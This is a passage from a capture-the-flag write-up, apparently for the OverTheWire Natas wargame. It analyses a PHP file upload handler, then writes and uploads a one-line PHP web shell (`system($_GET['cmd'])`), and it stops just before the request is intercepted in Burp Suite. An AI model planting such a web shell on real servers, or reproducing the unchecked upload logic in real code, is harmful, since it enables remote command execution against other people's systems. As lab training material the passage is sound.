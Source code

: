 ```php

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
Explaining the code
```
1. Function genRandomString generates a random string of length 10.
2. Function makeRandomPath creates a unique random file path in a given directory with a specified extension.
3. Function makeRandomPathFromFilename generates a random file path based on a given directory and filename.
4. If the "filename" key exists in the form data:
   a. Generate a random file path using makeRandomPathFromFilename.
   b. Check if the uploaded file size exceeds 1000 bytes.
   c. If the file size is within limits, move the uploaded file to the target path.
   d. Display appropriate messages based on the success or failure of the file upload.
5. If the "filename" key doesn't exist, assume no file upload form was submitted.
```
I think we got ourselves here a file upload vulnerability

We'll try uploading a ```.php``` file, since they aren't always up to ```1kb```.

Save this payload ```<?php system($_GET['cmd']); ?>``` in a php file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/CTF/over_the_wire]
└─$ nano abeg.php
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/CTF/over_the_wire]
└─$ cat abeg.php 
<?php system($_GET['cmd']); ?>
```
Lets try to upload this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e136f209-b15f-4a49-a656-9e40bde10ba6)

As you can see from the above screenshot, we uploaded a file named ```abeg.php```, it got renamed and also got the extension changed to a ```.jpg``` extension.

Lets try to upload the same file again, but this time, we'll intercept using burpsuite
